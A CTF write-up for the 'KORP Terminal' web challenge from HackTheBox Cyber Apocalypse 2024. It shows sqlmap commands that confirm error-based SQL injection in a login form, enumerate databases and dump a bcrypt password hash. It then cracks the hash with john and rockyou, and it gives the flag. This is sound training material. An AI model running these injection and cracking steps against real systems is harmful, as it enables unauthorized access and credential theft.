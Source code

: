 ```yaml
---
name: KORP Terminal (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for KORP Terminal (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# KORP Terminal

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=375 "HackTheBox Cyber Apocalypse '24: KORP Terminal (web)")

## Description

> Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

## Solution

Greeted by a login page. If we send single quotes in username/password box it triggers a MySQL error 👀

Tried SQLMap but it fails due to `401: Unauthorized`.

Luckily, we can just ignore that HTTP code.

```bash
sqlmap -r new.req --batch --ignore-code 401

[INFO] POST parameter 'username' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
```

Find the databases.

```bash
sqlmap -r new.req --batch --ignore-code 401 --dbs

available databases [3]:
[*] information_schema
[*] korp_terminal
[*] test
```

Then the tables.

```bash
sqlmap -r new.req --batch --ignore-code 401 -D korp_terminal --tables

+-------+
| users |
+-------+
```

Dump the passwords.

```bash
sqlmap -r new.req --batch --ignore-code 401 -D korp_terminal -T users -C password --dump

+--------------------------------------------------------------+
| password                                                     |
+--------------------------------------------------------------+
| $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. |
+--------------------------------------------------------------+
```

Crack the `bcrypt` hash with `john`.

```bash
john hash --wordlist=$rockyou

password123
```

Log in to the app and receive the flag.

```bash
admin:password123
```

Flag: `HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}`
